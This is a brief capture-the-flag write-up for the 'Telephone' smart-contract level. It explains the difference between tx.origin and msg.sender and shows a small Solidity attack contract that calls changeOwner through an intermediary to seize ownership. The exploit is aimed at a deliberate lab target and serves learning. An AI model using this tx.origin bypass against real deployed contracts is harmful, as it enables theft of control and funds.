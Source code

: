 ### Goals

- claim ownership of contract

### Exploit

This contract allows setting owner by `changeOwner()`, but first some check is done.

`tx.origin` is the address from which the transaction was triggered and `msg.sender` is just in the context of current call.

To win this level we must make sure they are different. We can make that by using basic smart contract.

### Code

Use Remix once again:

```code
contract TelephoneHack {
  function gimmeOwner(address telephone) external {
    telephone.call(abi.encodeWithSignature("changeOwner(address)", msg.sender));
  }
}
```

Then call `gimmeOwner()` with address of your Telephone contract.

Done!
